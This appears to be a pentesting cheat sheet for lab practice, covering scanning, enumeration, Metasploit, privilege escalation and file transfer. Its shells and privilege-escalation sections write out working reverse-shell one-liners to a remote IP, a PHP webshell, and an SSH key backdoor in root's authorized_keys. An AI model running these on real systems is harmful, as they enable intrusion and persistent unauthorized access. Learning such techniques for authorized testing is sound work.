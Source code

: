 # 🛠️ Pentesting Command Cheatsheet

---

## 🔐 VPN & Network Basics
- `sudo openvpn user.ovpn` – Connect to VPN  
- `ifconfig` / `ip a` – Show IP address  
- `netstat -rn` – Show accessible networks  
- `ssh user@10.10.10.10` – SSH into a remote server  
- `ftp 10.129.42.253` – FTP into a remote server  

---

## 🧰 Tmux
- `tmux` – Start tmux  
- `Ctrl + b` – Default prefix  
- `Prefix + c` – New window  
- `Prefix + 1` – Switch to window 1  
- `Prefix + Shift + %` – Split pane vertically  
- `Prefix + Shift + "` – Split pane horizontally  
- `Prefix + →` – Switch to the right pane  

---

## 📝 Vim
- `vim file` – Open file  
- `Esc + i` – Insert mode  
- `Esc` – Normal mode  
- `x` – Cut character  
- `dw` – Cut word  
- `dd` – Cut full line  
- `yw` – Copy word  
- `yy` – Copy full line  
- `p` – Paste  
- `:1` – Go to line 1  
- `:w` – Save  
- `:q` – Quit  
- `:q!` – Quit without saving  
- `:wq` – Save and quit  

---

## 🔍 Nmap
- `nmap 10.129.42.253` – Basic scan  
- `nmap -sV -sC -p- 10.129.42.253` – Full script scan  
- `locate scripts/citrix` – Locate Nmap scripts  
- `nmap --script smb-os-discovery.nse -p445 10.10.10.40` – Run specific script  

---

## 🧫 Netcat
- `netcat 10.10.10.10 22` – Grab banner  
- `nc -lvnp 1234` – Start listener  
- `nc 10.10.10.1 1234` – Connect to bind shell  

---

## 📁 SMB Client
- `smbclient -N -L \\10.129.42.253` – List shares  
- `smbclient \\10.129.42.253\users` – Access share  

---

## 📡 SNMP
- `snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0` – SNMP scan  
- `onesixtyone -c dict.txt 10.129.42.254` – Brute-force SNMP  

---

## 🌐 Gobuster
- `gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt` – Directory brute-force  
- `gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt` – Subdomain scan  

---

## 🌍 Curl
- `curl -IL https://www.inlanefreight.com` – Grab headers  
- `curl 10.10.10.121/robots.txt` – Check for robots.txt  
- `curl http://SERVER_IP:PORT/shell.php?cmd=id` – Execute webshell  
- `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh` – Download file  

---

## 🔍 WhatWeb
- `whatweb 10.10.10.121` – Detect web tech  

---

## 🌐 Firefox Shortcut
- `Ctrl + U` – View page source  

---

## 📚 SearchSploit
- `searchsploit openssh 7.2` – Search exploit  

---

## 🧨 Metasploit (MSFConsole)
- `msfconsole` – Launch MSF  
- `search exploit eternalblue` – Search for exploit  
- `use exploit/windows/smb/ms17_010_psexec` – Use module  
- `show options` – Show module options  
- `set RHOSTS 10.10.10.40` – Set target  
- `check` – Check if vulnerable  
- `exploit` – Run exploit  

---

## 🐚 Shells & Reverse Shells
- `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'` – Reverse shell  
- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f` – Reverse shell alt  
- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f` – Bind shell  
- `python -c 'import pty; pty.spawn("/bin/bash")'` – TTY upgrade 1  
- `Ctrl + Z → stty raw -echo → fg → Enter x2` – TTY upgrade 2  
- `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php` – PHP webshell  

---

## 🪜 Privilege Escalation
- `./linpeas.sh` – Run LinPEAS  
- `sudo -l` – List sudo privileges  
- `sudo -u user /bin/echo Hello World!` – Run as user  
- `sudo su -` – Root shell  
- `sudo su user -` – Switch user  
- `ssh-keygen -f key` – Generate SSH key  
- `echo "ssh-rsa AAAAB... user@parrot" >> /root/.ssh/authorized_keys` – Add key to authorized  
- `ssh root@10.10.10.10 -i key` – SSH using key  

---

## 📦 Transferring Files
- `python3 -m http.server 8000` – Start HTTP server  
- `wget http://10.10.14.1:8000/linpeas.sh` – Download via wget  
- `scp linenum.sh user@remotehost:/tmp/linenum.sh` – Upload via SCP  
- `base64 shell -w 0` – Encode file  
- `echo f0VMR... | base64 -d > shell` – Decode file  
- `md5sum shell` – Check file hash  
